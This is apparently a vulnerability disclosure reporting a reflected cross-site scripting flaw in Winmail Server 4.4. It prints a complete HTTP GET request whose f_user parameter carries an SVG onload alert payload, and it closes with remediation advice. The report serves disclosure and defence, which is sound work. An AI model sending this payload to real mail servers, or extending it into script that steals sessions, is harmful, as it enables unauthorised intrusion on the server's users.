

# XSS vulnerability in Winmail Server email system

### 企业官网(Enterprise official website)：

https://www.winmail.cn/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：
#### version:   Winmail Server 4.4
```
GET /?a=ht0d4&api_key=qkg85&begindate=qpol4&email=le159&f_autologin=ehai9&f_pass=py932&f_user=%22%3E%3Csvg%20onload=alert(1)%3E//&from=d6330&id=oejy4&keyword=hdpj0&l=cbms4&q=w5ac3&sLocation=u31d3&type=pnga8&url=u3f55&year=ti6w0 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip

```



### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

